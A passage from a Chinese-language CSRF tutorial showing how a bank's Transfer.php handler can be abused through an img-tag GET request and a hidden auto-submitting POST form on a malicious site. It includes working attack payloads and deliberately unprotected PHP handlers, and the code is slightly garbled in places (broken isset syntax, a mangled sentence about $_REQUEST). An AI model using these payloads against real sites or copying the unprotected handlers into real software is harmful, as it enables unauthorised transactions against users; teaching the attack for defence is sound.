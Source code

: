 后台处理页面Transfer.php如下：

```
<?php
　　　　session_start();
　　　　if (isset($_REQUEST['toBankId'] &&　isset($_REQUEST['money'])) {
　　　　    buy_stocks($_REQUEST['toBankId'],　$_REQUEST['money']);
　　　　}
?>
```
危险网站B，仍然只是包含那句HTML代码：

```
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```
和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....和示例1一样，你再次没了1000块～T_T，这次事故的原因是：银行后台使用了
去获取请求的数据，而REQUEST去获取请求的数据，而_REQUEST既可以获取GET请求的数据，也可以获取POST请求的数据，这就造成了在后台处理程序无法区分这到底是GET请求的数据还是POST请求的数据。在PHP中，可以使用和GET和_POST分别获取GET请求和POST请求的数据。在JAVA中，用于获取请求数据request一样存在不能区分GET请求数据和POST数据的问题。

示例3：

经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用$_POST，只获取POST请求的数据，后台处理页面Transfer.php代码如下：
```
<?php
    session_start();
    if (isset($_POST['toBankId'] &&　isset($_POST['money'])){
　　　　    buy_stocks($_POST['toBankId'],　$_POST['money']);
　　　　}
?>
```
然而，危险网站B与时俱进，它改了一下代码：

```
<html>
　　 <head>
　　　　<script type="text/javascript">
　　　　　　function steal() {
                iframe = document.frames["steal"];
                iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　 </head>
    <body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```
如果用户仍是继续上面的操作，很不幸，结果将会是再次不见1000块......因为这里危险网站B暗地里发送了POST请求到银行!

总结一下上面3个例子，CSRF主要的攻击模式基本上是以上的3种，其中以第1,2种最为严重，因为触发条件很简单，一个就可以了，而第3种比较麻烦，需要使用JavaScript，所以使用的机会会比前面的少很多，但无论是哪种情况，只要触发了CSRF攻击，后果都有可能很严重。
